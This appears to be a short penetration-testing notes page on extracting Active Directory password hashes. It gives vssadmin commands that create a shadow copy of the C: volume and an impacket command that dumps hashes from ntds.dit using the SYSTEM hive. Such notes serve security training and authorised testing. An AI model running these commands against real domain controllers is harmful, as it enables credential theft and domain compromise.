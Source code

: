 # Getting Hashes on Servers

Servers with Active Directory installed

```bash
#Path to the file containing the AD hashes

C:\Windows\NTDS  #Directory that stores AD credentials
ntds.dit #Responsible for storing AD information

vssadmin #Utility responsible for creating a shadow copy of the volumes available in Windows

vssadmin list volumes #List all available volumes
vssadmin create shadow /for=c: # creates a shadow copy of the c:
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Dumping the hashes

```
impacket-secretdump -ntds ntds.dit -system system LOCAL
```
